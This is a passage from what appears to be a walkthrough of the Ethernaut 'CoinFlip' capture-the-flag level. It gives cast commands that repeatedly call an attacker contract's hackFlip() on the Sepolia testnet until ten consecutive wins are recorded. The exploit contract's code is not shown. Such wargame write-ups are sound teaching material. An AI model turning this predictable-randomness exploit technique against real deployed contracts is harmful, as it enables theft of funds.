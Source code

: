 3 Use cast on `hackCoinFlip` to get the　`getBool` value if you want to see

```bash
cast call 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "getBool()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

4 call `hackflip()` 10 times.

```bash
cast send 0xD02189cf6230ED69E9F3B69E84e9d1b85c97d8A6 "hackFlip()" --rpc-url $alchemy_RPC_sepolia --private-key $PRIVATE_KEY_TESTNET
```

- To check how many time you won in a row, use the below. When you reached 10, you can submit your instance on ethernaut.

```
> x = await contract.consecutiveWins()

> x.toString()
< '10'
```


Level is completed.

<br/>
<p align="center">
<img src="./images/complete.png" width="700" alt="Ethernaut Coinflip completed">
</p>